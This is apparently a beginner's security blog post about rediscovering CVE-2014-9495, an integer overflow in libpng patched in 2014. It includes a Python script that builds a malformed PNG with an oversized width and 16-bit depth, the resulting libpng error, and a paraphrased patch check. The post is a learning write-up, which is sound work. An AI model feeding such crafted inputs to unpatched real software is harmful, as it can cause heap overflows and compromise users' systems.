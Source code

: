 ```yaml
---
title: "How I Discovered a Libpng Vulnerability 11 Years After It Was Patched"
date: 2025-07-06
tags: ["security", "secure code review", "libpng", "CVE-2014-9495", "learning", "bug hunting"]
description: "A beginner's journey into secure code review, and how I accidentally rediscovered an 11-year-old vulnerability in libpng."
draft: false
---
```


> **Disclaimer:** This is **NOT** a zero-day. This is a learning experience from my journey into secure code review, where I accidentally rediscovered a vulnerability that was patched back in **2014** (CVE-2014-9495).  
> I'm sharing this to help others who are also learning and want to understand how vulnerabilities work in real-world code.

---

## The Backstory

I'm currently learning secure code review and wanted to pick a real-world open-source project to practice on. I chose [libpng](https://www.libpng.org/pub/png/libpng.html) the widely-used C library for handling PNG images.

While going through the code, I found a few interesting things. But one stood out.

At first glance, it looked like a serious vulnerability: the code seemed to calculate memory based on user-controlled values like `width` and `bit depth`, and there weren't any obvious safety checks in the version I was reviewing.

So I tried to exploit it… and it worked.

Well, kind of.

Instead of crashing, `libpng` stopped me in my tracks with an error. That's when I realized this bug was already discovered and patched... back in **2014**!

But hey I still learned a lot, and now I'm sharing that story.

---

## The Code I Wrote to Trigger It

I crafted a special PNG file using Python. This PNG had:

- A **ridiculously large width** (`0x80000000`, or 2GB)  
- A **bit depth of 16**

This combination was enough to overflow an internal memory calculation, which could potentially lead to a heap buffer overflow.

Here's the script I used:

```python
import struct, zlib

def chunk(type_str, data_bytes):
    length = struct.pack(">I", len(data_bytes))
    type_encoded = type_str.encode("ascii")
    crc = struct.pack(">I", zlib.crc32(type_encoded + data_bytes) & 0xffffffff)
    return length + type_encoded + data_bytes + crc

png = b"\x89PNG\r\n\x1a\n"

# Dangerous values: 2GB width + 16-bit depth
width = 0x80000000
height = 1
bit_depth = 16
color_type = 2
compression_method = 0
filter_method = 0
interlace_method = 0

ihdr_data = struct.pack(">IIBBBBB",
                        width, height, bit_depth,
                        color_type, compression_method,
                        filter_method, interlace_method)

png += chunk("IHDR", ihdr_data)
png += chunk("IEND", b"")

with open("overflow_width_bitdepth.png", "wb") as f:
    f.write(png)

print("[*] Malicious PNG created.")
```


And Then… It Blew Up
When I opened this PNG with libpng, here's what I got:

```
libpng error: PNG unsigned integer out of range
libpng error during init_io

```

That's not just a crash that's libpng detecting something fishy and refusing to process it. Basically:

> “Nice try, hacker. Not today.”

What Was the Actual Bug?
Let's break it down.

In older versions of libpng, the code responsible for calculating how much memory was needed per image row looked like this:

```
rowbytes = width * (bit_depth * channels + 7) / 8;

```

[Buggy snippet]:(https://github.com/pnggroup/libpng/blob/libpng16/png.c#L1984-L1990)

This line multiplies user-supplied values like width and bit_depth.

Now imagine:

width = 2,147,483,648 (2GB)

bit_depth = 16

The multiplication overflows a 32-bit unsigned integer. This silently wraps around to a smaller number, so libpng allocates less memory than needed.

    That's a classic vulnerability:

Integer overflow ➜ Miscalculated buffer size ➜ Heap buffer overflow


The Patch (CVE-2014-9495)
In 2014, this exact issue was discovered and patched under CVE-2014-9495.

Patch Summary
    Added range checks before doing any memory calculations
    Ensured that values like width * bit_depth * channels don't overflow
    Returned an error if something looked suspicious
Now, the fixed version throws an error like:
```
libpng error: PNG unsigned integer out of range

```
Simplified Patch Logic
```
if (width > PNG_UINT_31_MAX || (width * bit_depth * channels) > PNG_SIZE_MAX)
    png_error(png_ptr, "Image width is too large for this architecture");

```

Patch for the bug is over here : [patch](https://sourceforge.net/p/libpng/code/ci/6d8c88177af0bd8732489f11e7c63cf861e30321/)

What I Learned
This was a cool moment in my learning journey.

Key Takeaways:
    Always audit from source to sink vulnerable looking code might be safe if it's validated somewhere else.
    Integer overflows in C are sneaky and dangerous know how they behave!
    Just because something doesn't crash doesn't mean it's not worth exploring it might teach you something important.

Even though I didn't find a brand-new 0-day, this experience helped me level up in secure code review and that's a win in itself.

Wrapping Up
If you're learning security or bug hunting like me, don't be afraid to dig into old projects and experiment. Even if you don't find new bugs, you'll uncover real-world lessons just like I did with this 11-year-old vulnerability.

Stay curious. Keep exploring.
